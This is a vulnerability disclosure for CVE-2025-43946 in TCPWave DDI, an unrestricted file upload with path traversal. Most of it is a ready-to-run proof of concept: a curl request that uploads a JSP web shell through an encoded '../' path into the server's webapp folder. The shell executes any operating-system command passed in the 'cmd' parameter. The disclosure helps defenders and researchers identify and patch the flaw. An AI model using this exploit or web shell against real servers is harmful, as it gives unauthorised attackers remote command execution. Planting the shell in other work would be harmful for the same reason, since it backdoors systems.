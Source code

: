 # CVE-2025-43946
TCPWave DDI version 11.34P1C2 was found vulnerable to remote code execution via the unrestricted file upload and path traversal. The vulnerability lies on its file
upload functionality, where there is no proper validation on file type allowing any users tocupload files to the server. Moreover, any user can perform path traversal to upload files to
any location within the server, which can further lead to remote code execution.

# Affected Product & Version
TCPWave DDI version <= 11.34P1C2 </br>

Reference: https://tcpwave.com/ddi-dns-dhcp-ipam

# PoC
cURL command:
````
curl --path-as-is -i -s -k -X $'POST' \

-H $'Host: YOUR-INSTANCE-URL ' -H $'Content-Length: 898' -H $'Sec-Ch-Ua-Platform:
\"Linux\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Sec-Ch-Ua: \"Chromium\";v=\"133\",
\"Not(A:Brand\";v=\"99\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'X-Requested-With: XMLHttpRequest' -H
$'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/
133.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Content-Type: text/plain; charset=UTF-8' -H $'Origin:
https:// YOUR-INSTANCE-URL ' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H
$'Sec-Fetch-Dest: empty' -H $'Referer: https:// YOUR-INSTANCE-URL/tims/import' -H $'Accept-
Encoding: gzip, deflate, br' -H $'Priority: u=1, i' -H $'Connection: keep-alive' \

-b $'JSESSIONID=YOUR_SESSION_ID' \

--data-binary $'<%@ page import=\"java.util.*,java.io.*\"%>\x0d\x0a<%
\x0d\x0a%>\x0d\x0a<HTML><BODY>\x0d\x0aCommands with JSP\x0d\x0a<FORM
METHOD=\"GET\" NAME=\"myform\" ACTION=\"\">\x0d\x0a<INPUT TYPE=\"text\"
NAME=\"cmd\">\x0d\x0a<INPUT TYPE=\"submit\" VALUE=\"Send\">\x0d\x0a</
FORM>\x0d\x0a<pre>\x0d\x0a<%\x0d\x0aif (request.getParameter(\"cmd\") != null) {\x0d\x0a
out.println(\"Command: \" + request.getParameter(\"cmd\") + \"<BR>\");\x0d\x0a Process p;
\x0d\x0a if ( System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") != -1){\x0d\x0a
p = Runtime.getRuntime().exec(\"cmd.exe /C \" + request.getParameter(\"cmd\"));\x0d\x0a }
\x0d\x0a else{\x0d\x0a p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));
\x0d\x0a }\x0d\x0a OutputStream os = p.getOutputStream();\x0d\x0a InputStream in =
p.getInputStream();\x0d\x0a DataInputStream dis = new DataInputStream(in);\x0d\x0a String disr
= dis.readLine();\x0d\x0a while ( disr != null ) {\x0d\x0a out.println(disr);\x0d\x0a disr =
dis.readLine();\x0d\x0a }\x0d\x0a}\x0d\x0a%>\x0d\x0a</pre>\x0d\x0a</BODY></HTML>' \

$'https://YOUR-INSTANCE-URL/tims/rest/files/upload/
%2e%2e%2fserverTempDir%2FjEtTySERver%2Fwebapp%2Fpoc.jsp'
````

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.
